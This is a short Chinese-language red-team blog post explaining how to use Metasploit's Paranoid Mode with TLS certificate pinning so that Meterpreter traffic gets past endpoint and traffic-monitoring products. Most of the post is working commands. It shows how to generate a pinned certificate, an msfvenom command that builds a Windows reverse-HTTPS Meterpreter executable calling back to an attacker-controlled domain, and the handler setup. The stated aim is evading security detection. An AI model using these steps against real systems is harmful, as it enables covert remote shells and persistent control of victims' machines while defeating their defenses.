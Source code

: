 ```yaml
---
title: MSF TLS pinning
author: Admin
date: 2020-05-01 14:01:00 +0800
categories: [RAT, MSF]
tags: [流量加密, MSF, 免杀]
---
```


# 开宗明义

利用TLS pinning（证书锁定）过掉流量监控设备，例如赛某的端点防护。

Rapid7将之称为```Paranoid Mode(偏执模式)```，相关wiki：[github.com/rapid7/metasploit-framework/wiki/Meterpreter-Paranoid-Mode](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Paranoid-Mode)

# 创建证书

```shell
openssl req -new -newkey rsa:4096 -days 36500 -nodes -x509 -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" -keyout cert.key -out cert.crt
cat cert.key cert.crt > cert.pem
rm -f cert.key cert.crt
```

其中`www.example.com`为回连域名或IP

# 生成payload

```shell
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=www.example.com LPORT=443 PayloadUUIDTracking=true HandlerSSLCert=./cert.pem StagerVerifySSLCert=true PayloadUUIDName=ParanoidStagedPSH -f exe -o ./launch-paranoid.exe
```

支持的payload:

|  Staged (payload.bat&#124;ps1&#124;txt&#124;exe):  |
|  :----  |
|  windows/meterpreter/reverse_winhttps  |
|  windows/meterpreter/reverse_https  |
|  windows/x64/meterpreter/reverse_https  |

|  Stageless (binary.exe):  |
|  :----  |
|  windows/meterpreter_reverse_https  |
|  windows/x64/meterpreter_reverse_https  |


# 设置监听

```shell
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_winhttps
set LHOST www.example.com
set LPORT 443
set HandlerSSLCert ./cert.pem
set IgnoreUnknownPayloads true
set StagerVerifySSLCert true
set exitonsession false
run -j -z
```

# 在MacOS上的tips

使用完msfconsole后，会有残留进程，建议运行`msfdb stop`结束。
